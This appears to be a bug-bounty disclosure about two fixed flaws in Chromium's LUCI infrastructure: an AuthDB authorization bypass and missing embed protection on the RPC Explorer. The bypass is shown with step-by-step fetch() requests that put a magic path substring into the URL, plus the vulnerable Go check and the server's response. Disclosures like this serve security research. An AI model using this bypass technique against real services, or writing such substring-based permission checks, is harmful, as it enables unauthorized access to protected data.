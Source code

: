 ```yaml
---
title: Chromium infra
---
```


# LUCI AuthDB leak (Fixed, Awarded $1000)

LUCI is the CI (Continuous integration) infrastructure for the Chromium project.
This database represents all data used when authorizing incoming requests and handling authentication related tasks: user groups, IP allow lists, OAuth client ID allowlist, etc.

- Login to this URL as any normal google user.
<https://accounts.google.com/o/oauth2/v2/auth?gsiwebsdk=3&client_id=446450136466-tmlcmovb9hnoh8rhs39846vmmd0rrsl0.apps.googleusercontent.com&scope=https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email&redirect_uri=https%3A%2F%2Fdefaultv2-dot-chrome-infra-auth.appspot.com%2Fauth%2Fopenid%2Fcallback&prompt=select_account&response_type=token&include_granted_scopes=false&enable_granular_consent=true>

- Copy the `access_token` value from the url hash.
- On that same page, run the following
```js
fetch("https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v1/authdb/subscription/authorization?x=/auth_service/api/v1/importer/ingest_tarball/", {
  "headers": {
    "authorization": "Bearer <token goes here>",
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "method": "POST",
  "mode": "cors"
});
```

You should now be granted permission to luci-go AuthDB without being in the "auth-trusted-services" group needed as per https://pkg.go.dev/go.chromium.org/luci/server/auth/service#AuthService.RequestAccess

`{"topic":"projects/chrome-infra-auth/topics/auth-db-changed","authorized":true,"gs":{"auth_db_gs_path":"chrome-infra-auth.appspot.com/auth-db","authorized":true}}`

You can also use the API to download the DB.
```js
fetch("https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v2/authdb/revisions/latest?x=/auth_service/api/v1/importer/ingest_tarball/", {
  "headers": {
    "authorization": "Bearer <token>",
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "method": "GET",
  "mode": "cors"
});
```

The bypass is that if the URL contains `/auth_service/api/v1/importer/ingest_tarball/` anywhere the permission check gets bypassed.
Code is `strings.Contains(ctx.Request.URL.RequestURI(), "/auth_service/api/v1/importer/ingest_tarball/")`
Otherwise I would get `{"text":"user:ndevtk@protonmail.com is not a member of auth-trusted-services or administrators"}`

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/5595490>

# Clickjacking RPC Explorer (Fixed)
Go-based services that has gRPC APIs, import "go.chromium.org/luci/server", and call server.Main
Get a web based user interface for example <https://ci.chromium.org/rpcexplorer/services/> this used to not have embed protection.

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/4889788>
